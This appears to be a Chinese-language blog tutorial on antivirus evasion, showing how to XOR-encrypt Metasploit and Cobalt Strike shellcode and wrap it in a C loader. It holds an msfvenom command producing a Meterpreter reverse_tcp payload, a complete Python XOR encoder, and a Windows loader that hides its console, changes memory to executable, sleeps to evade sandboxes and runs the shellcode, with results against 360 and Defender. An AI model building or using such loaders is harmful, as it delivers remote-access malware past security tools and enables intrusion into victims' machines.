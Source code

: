 ```yaml
---
title: 基于加载器的python反序列化免杀
tags:
  - 免杀
---
```

### 基于对shellcode进行异或加密后在代码中解密免杀

**PS:感谢倾旋大佬，**[ascotbe](https://www.secpulse.com/newpage/author?author_id=26488)**大佬的分享**

#### 0x01 环境配置

Win10 x64

Vs2019

Python 2.7.18

CS4.0

Msf

生成payload：

Msf：

| msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.176.129 LPORT=4444 -o payload.bin |
|---------------------------------------------------------------------------------------------|

#### 0x02 免杀原理

先对shellcode进行异或加密然后在代码中解密

#### 0x03 制作加密shellcode

使用倾旋大佬的代码进行xor加密

    import sys from argparse 
    import ArgumentParser, FileType

    def process_bin(num, src_fp, dst_fp, dst_raw):
        shellcode = ''
        shellcode_size = 0
        shellcode_raw = b''
        try:
            while True:
                code = src_fp.read(1)
                if not code:
                    break

                base10 = ord(code) ^ num
                base10_str = chr(base10)
                shellcode_raw += base10_str.encode()
                code_hex = hex(base10)
                code_hex = code_hex.replace('0x','')
                if(len(code_hex) == 1):
                code_hex = '0' + code_hex
                shellcode += '\\x' + code_hex
                shellcode_size += 1
            src_fp.close()
            dst_raw.write(shellcode_raw)
            dst_raw.close()
            dst_fp.write(shellcode)
            dst_fp.close()
            return shellcode_size
        except Exception as e:
        sys.stderr.writelines(str(e))

    def main():
        parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
        parser.add_argument('-v','--version',nargs='?')
        parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
        parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
        parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
        parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
        args = parser.parse_args()
        shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
        sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

    if __name__ == "__main__":

        main()

执行如下命令获取payload.c 即shellcode

    python xorencode.py -s msf-payload.bin -d msf-payload.c -n 10 -r 123.txt 
    python xorencode.py -s cs-payload.bin -d cs-payload.c -n 10 -r cs-123.txt

生成结果如下：

![](https://fifteenblackslime.github.io/assets/pic/media1/0da9dfef4e4086c0e20a613b270507c7.png)

Payload.c内容为：

![](https://fifteenblackslime.github.io/assets/pic/media1/53d890566ef4831276da8a6585f37a7c.png)

#### 0x04 使用vs2019进行解密打包生成exe

倾旋大佬的代码及思路：

    申请内存时，一定要把控好属性，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过VirtualProtect改变它的属性-\> 可执行
具体代码如下：

    #include <Windows.h>

    // 入口函数
    int wmain(int argc, TCHAR* argv[]) {

        ShowWindow(GetConsoleWindow(), SW_HIDE);//不显示cmd窗口

        int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
        DWORD dwOldProtect; // 内存页属性
    /* length: 800 bytes */

        unsigned char buf[] = "生成的shellcode";


        // 获取shellcode大小
        shellcode_size = sizeof(buf);

        /* 增加异或代码 */
        for (int i = 0; i < shellcode_size; i++) {
            buf[i] ^= 10;
        }
        /*
        VirtualAlloc(
            NULL, // 基址
        800,  // 大小
            MEM_COMMIT, // 内存页状态
            PAGE_EXECUTE_READWRITE // 可读可写可执行
            );
        */

        char* shellcode = (char*)VirtualAlloc(
            NULL,
            shellcode_size,
            MEM_COMMIT,
            PAGE_READWRITE // 只申请可读可写
            //原来的属性是PAGE_EXECUTE_READWRITE
        );

        // 将shellcode复制到可读可写的内存页中
        CopyMemory(shellcode, buf, shellcode_size);

        // 这里开始更改它的属性为可执行
        VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

        // 等待几秒，兴许可以跳过某些沙盒呢？
        Sleep(2000);

        hThread = CreateThread(
            NULL, // 安全描述符
            NULL, // 栈的大小
            (LPTHREAD_START_ROUTINE)shellcode, // 函数
            NULL, // 参数
            NULL, // 线程标志
            &dwThreadId // 线程ID
        );

        WaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
        return 0;
    }

![](https://fifteenblackslime.github.io/assets/pic/media1/507a365e287579cf8ec827c9b4413056.png)

生成release版本exe

使用过程中我添加了如下代码去除cmd窗口：

| ShowWindow(GetConsoleWindow(), SW_HIDE); |
|------------------------------------------|

![](https://fifteenblackslime.github.io/assets/pic/media1/75c00948267dd56d986d21f999545c3e.png)

##### 0x05免杀结果

测试杀软：360，defender

通过Msf的bin文件生成exe可以通过360检测，但无法通过defender。

通过Cobalt strike的raw文件生成exe无法通过杀软。
